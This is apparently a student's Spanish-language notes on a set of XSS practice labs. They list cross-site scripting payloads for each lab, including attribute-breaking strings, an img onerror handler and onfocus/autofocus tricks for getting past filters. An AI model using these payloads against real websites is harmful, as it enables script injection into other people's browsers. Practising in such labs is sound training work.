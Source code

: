 # XSS Lab

Tags: #XSS #Challenges

```bash
# En estos laboratorios debemos de mirar el inspector y el código fuente de la web para saber que debemos ir haciendo. Nos ayuda a practicar y como ir evadiendo en el codifo fuente 
```

* [Ejercicios-XSS](https://sudo.co.il/xss/)
## Lab 0

```javascript
<script>alert("XSS")</script>                 // Script basico 
<img src/onerror=alert(document.domain)>      // Para que nos regres el dominio del sitio web 
```

## Lab 1

```javascript
// Debemos de cerrar el campo valor e inyectar el codigo 

"><script>alert("XSS")</script>"              // Debemos de cerrar el campo 'valor' para poder inyectar codigo JavaScript
"><script>alert("XSS")</script><!- -          // <!- - Es un comentario, '--' Asi deberia de ir, seguidos, esto lo hacemo si el SXX se acontece en un campo de login, por lo que el comentario es para evitar el campo de password
" onfocus="alert(1)" autofocus="              // Otra manera de colocar alert 
```

## Lab 2 

```javascript
// Cuando el codigo esta sanitizado, a veces no deja que coloquemos '< o >' por lo que debemos buscar otra manera de colocar alert

" onfocus="alert(1)" autofocus="          
```

## Lab 3 

```javascript
// En este lab nos colocan un guion '-' como forma de sanitizar 

"onfocus="alert(1)" autofocus="
```